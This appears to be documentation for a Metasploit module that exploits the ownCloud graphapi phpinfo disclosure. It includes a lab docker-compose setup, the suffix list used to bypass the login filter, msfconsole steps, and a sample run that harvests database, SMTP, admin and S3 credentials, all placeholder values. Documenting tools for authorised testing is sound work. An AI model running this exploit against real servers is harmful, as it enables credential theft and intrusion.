## Vulnerable Application

Docker containers of ownCloud compiled after February 2023, which have version 0.2.0 before 0.2.1 or 0.3.0 before 0.3.1 of the app `graph` installed
contain a test file which prints `phpinfo()` to an unauthenticated user. A post file name must be appended to the URL to bypass the login filter.
Docker may export sensitive environment variables including ownCloud, DB, redis, SMTP, and S3 credentials, as well as other host information.

### Docker-Compose Build

Using docker-compose we can build a fairly robust system with plenty of information to pilfer.

Based off of [Ron Bowes Blog Post](https://www.labs.greynoise.io//grimoire/2023-11-29-owncloud-redux/)

A list of environment variables is posted [here](https://github.com/owncloud-docker/base/blob/master/ENVIRONMENT.md#environment-variables)

```
version: "3"

services:
  owncloud:
    image: owncloud/server:10.12.1
    container_name: owncloud_server
    restart: always
    ports:
      - 8080:8080
    depends_on:
      - mariadb
      - redis
    environment:
      - OWNCLOUD_DOMAIN=localhost:8080
      - OWNCLOUD_TRUSTED_DOMAINS=localhost
      - OWNCLOUD_DB_TYPE=mysql
      - OWNCLOUD_DB_NAME=owncloud
      - OWNCLOUD_DB_USERNAME=owncloud
      - OWNCLOUD_DB_PASSWORD=owncloud
      - OWNCLOUD_DB_HOST=mariadb
      - OWNCLOUD_ADMIN_USERNAME=admin_username
      - OWNCLOUD_ADMIN_PASSWORD=admin_password
      - OWNCLOUD_MYSQL_UTF8MB4=true
      - OWNCLOUD_REDIS_ENABLED=true
      - OWNCLOUD_REDIS_HOST=redis
      - APACHE_LOG_LEVEL=trace6
      - OWNCLOUD_MAIL_SMTP_PASSWORD=smtp_password
      - OWNCLOUD_MAIL_SMTP_NAME=smtp_username
      - OWNCLOUD_LICENSE_KEY=1122333
      - OWNCLOUD_OBJECTSTORE_KEY=owncloud123456
      - OWNCLOUD_OBJECTSTORE_SECRET=secret123456
      - OWNCLOUD_OBJECTSTORE_REGION=us-east-1
    healthcheck:
      test: ["CMD", "/usr/bin/healthcheck"]
      interval: 30s
      timeout: 10s
      retries: 5

  mariadb:
    image: mariadb:10.11 # minimum required ownCloud version is 10.9
    container_name: owncloud_mariadb
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=owncloud
      - MYSQL_USER=owncloud
      - MYSQL_PASSWORD=owncloud
      - MYSQL_DATABASE=owncloud
      - MARIADB_AUTO_UPGRADE=1
    command: ["--max-allowed-packet=128M", "--innodb-log-file-size=64M"]
    healthcheck:
      test: ["CMD", "mysqladmin", "ping", "-u", "root", "--password=owncloud"]
      interval: 10s
      timeout: 5s
      retries: 5

  redis:
    image: redis:6
    container_name: owncloud_redis
    restart: always
    command: ["--databases", "1"]
    healthcheck:
      test: ["CMD", "redis-cli", "ping"]
      interval: 10s
      timeout: 5s
      retries: 5
```

You may need to add an aditional entry to `OWNCLOUD_TRUSTED_DOMAINS` which has the IP address of the host, such as `OWNCLOUD_TRUSTED_DOMAINS=localhost,192.68.1.1`

If the `graph` app needs to be installed, use the following instructions:

```
docker exec -it owncloud_server /bin/bash
cd apps
wget "$(curl 'https://marketplace.owncloud.com/ajax/apps/graphapi/0.3.0' | sed 's/\\//g' | cut -d '"' -f 4)" -O graphapi-0.3.0.tar.gz
rm -rf graphapi
tar -zxf graphapi-0.3.0.tar.gz
occ app:enable graphapi
```

## Verification Steps

1. Install the application and plugin
1. Start msfconsole
1. Do: `use auxiliary/gather/owncloud_phpinfo_reader`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should information from the system configuration

## Options

### ROOT

Root path of the URI, which is different than `TARGETURI` as its ownCloud specific. Defaults to `all` which will try `''` (empty), and `owncloud`

### ENDFILE

The file path to add to the end of hte URL, which is used to bypass filtering. Defaults to `all` which will try `/.css`, `/.js`, `/.svg`,
`/.gif`, `/.png`, `/.html`, `/.ttf`, `/.woff`, `/.ico`, `/.jpg`, `/.jpeg`, `/.json`, `/.properties`, `/.min.map`, `/.js.map`, `/.auto.map`

## Scenarios

### ownCloud 10.12.1 from Docker Compose

```
resource (owncloud.rb)> use auxiliary/gather/owncloud_phpinfo_reader
resource (owncloud.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (owncloud.rb)> set verbose true
verbose => true
resource (owncloud.rb)> run
[*] Running module against 127.0.0.1
[*] Checking: /apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css
[+] Found phpinfo page at: /apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css
[+] Loot stored to: /home/h00die/.msf4/loot/20231203153109_default_127.0.0.1_owncloud.phpinfo_453632.txt
[+] License Key: 1122333
[+] Hostname: b2b16d6f3ba6
[+] Home: /root
[+] Server Root: /var/www/owncloud
[+] PWD: /var/www/owncloud
[+] SMTP Username: smtp_username
[+] SMTP Password: smtp_password
[+] ownCloud Username: admin_username
[+] ownCloud Password: admin_password
[+] DB Host: mariadb:3306
[+] DB Username: owncloud
[+] DB Password: owncloud
[+] DB Name: owncloud
[+] Redis Host: redis
[+] Redis Port: 6379
[+] Objectstore Endpoint: https://s3.us-east-1.amazonaws.com
[+] Objectstore Region: us-east-1
[+] Objectsore Secret: secret123456
[+] Objectstore Key: owncloud123456
[+] Objectstore Bucket: owncloud
[+] Credentials
===========

  Type             Host            Username             Password              Notes
  ----             ----            --------             --------              -----
  S3 Object Store  us-east-1       Key: owncloud123456  Secret: secret123456  Endpoint: https://s3.us-east-1.amazonaws.com, Bucket: owncloud
  SMTP             127.0.0.1:25    smtp_username        smtp_password
  mysql            127.0.0.1:8080  owncloud             owncloud
  ownCloud         127.0.0.1:8080  admin_username       admin_password

[*] Auxiliary module execution completed
```
